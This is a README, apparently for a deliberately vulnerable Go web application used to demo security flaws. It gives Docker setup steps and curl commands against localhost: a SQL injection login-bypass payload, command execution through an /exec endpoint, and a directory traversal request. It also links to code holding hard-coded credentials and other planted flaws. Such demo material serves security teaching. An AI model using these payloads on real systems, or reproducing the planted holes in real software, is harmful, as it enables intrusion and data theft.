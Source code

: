 **Demo steps**
1. Start containers:
```
cd <tarpit_go>
docker-compose up
```
2. DB Init:
Visit:
http://localhost:3000/init
or
```
curl -X GET http://localhost:3000/dbinit
```
3. Visit http://localhost:3000/login to see the demo; (There are also curl commands version attached)
4. Tear down the environment:
```
control + C
docker-compose down
```

**curl version**
1. Sql injection demo: 
//password='12346" OR ""="'
```
curl -X POST -d "username=admin&password=12346%22+OR+%22%22%3D+%22" http://localhost:3000/login
```
2. Remote code execution:
```
curl -X POST -d "cmd=ls -a" http://localhost:3000/exec
```
3. Directory traversal demo: (login first)
```
curl -X GET http://localhost:3000/image/../demo/demo.go
```
4. Hard Coded credentials:
[https://github.com/AiolosLiu/tarpit_go/blob/master/auth.go#L19](https://github.com/AiolosLiu/tarpit_go/blob/master/auth.go#L19)

5. Sensitive data leak: 
[https://github.com/AiolosLiu/tarpit_go/blob/master/auth.go#L26](https://github.com/AiolosLiu/tarpit_go/blob/master/auth.go#L26)

6. Insider attack:
[https://github.com/AiolosLiu/tarpit_go/blob/master/vulns.go#L73](https://github.com/AiolosLiu/tarpit_go/blob/master/vulns.go#L73)

7. Business logic flaw:
[https://github.com/AiolosLiu/tarpit_go/blob/master/workflow.go#L100](https://github.com/AiolosLiu/tarpit_go/blob/master/workflow.go#L100)